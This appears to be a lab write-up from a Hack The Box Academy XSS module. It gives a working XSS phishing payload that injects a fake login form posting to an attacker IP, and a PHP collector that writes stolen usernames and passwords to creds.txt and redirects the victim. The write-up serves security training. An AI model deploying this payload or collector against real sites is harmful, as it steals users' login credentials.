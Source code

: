 Let's try logging into the injected login form and see what we get. We see that we get redirected to the original Image Viewer page:

   

![](https://academy.hackthebox.com/storage/modules/103/xss_image_viewer.jpg)

If we check the `creds.txt` file in our Pwnbox, we see that we did get the login credentials:


```shell-session
smoothment@htb[/htb]$ cat creds.txt
Username: test | Password: test
```

With everything ready, we can start our PHP server and send the URL that includes our XSS payload to our victim, and once they log into the form, we will get their credentials and use them to access their accounts.


# Question
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250130172026.png)

Nice, let's breakdown this question:

## Creating the malicious URL
---

We need to see our `tun0` Ip, we can achieve this by doing `ip a | grep tun0`, once we have our IP, we can submit the following payload into the `/phishing` site:

```js
document.write('<h3>Please login to continue</h3><form action=http://OUR_TUN0_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

We can see the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250130172409.png)

We could erase the `Image URL` section from above but since this is just a challenge, let's keep it like that.

Let's go into next step

## Setting our php server
---

Next step would be setting our php server to trick the user into thinking they did a legitimate action, let's save the following code in a file:

```php
<?php  
if (isset($_GET['username']) && isset($_GET['password'])) {  
$file = fopen("creds.txt", "a+");  
fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");  
header("Location: http://SERVER_IP/phishing/login.php");  
fclose($file);  
exit();  
}  
?>
```
